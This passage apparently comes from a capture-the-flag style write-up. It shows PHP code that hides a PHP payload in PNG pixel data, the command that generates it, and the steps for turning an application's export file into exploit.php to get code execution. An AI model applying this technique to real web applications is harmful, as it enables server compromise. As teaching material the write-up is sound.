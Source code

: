 ```php
$img = imagecreatetruecolor(110, 110);
 
for ($y = 0; $y < sizeof($p); $y += 3) {
$r = $p[$y];
$g = $p[$y+1];
$b = $p[$y+2];
$color = imagecolorallocate($img, $r, $g, $b);
imagesetpixel($img, round($y / 3)*2, 0, $color);
imagesetpixel($img, round($y / 3)*2+1, 0, $color);
imagesetpixel($img, round($y / 3)*2, 1, $color);
imagesetpixel($img, round($y / 3)*2+1, 1, $color);
}
 
imagepng($img);
?>
```

So we create our payload with: `php gen.php '<?php phpinfo(); ?>' blank.png`

We are going to modify the code of the application so that the variables `$map` and `$stamp` point towards this malicious file, moreover, we also modify the variable `$this->export_file` so that it is equal to `exploit.php`. So we recreate a point on the map, and after a minute (we wait for the `worker.sh` script to be executed), we go to `/static/exports/exploit.php`, and ... :

![phpinfo](images/13.png)
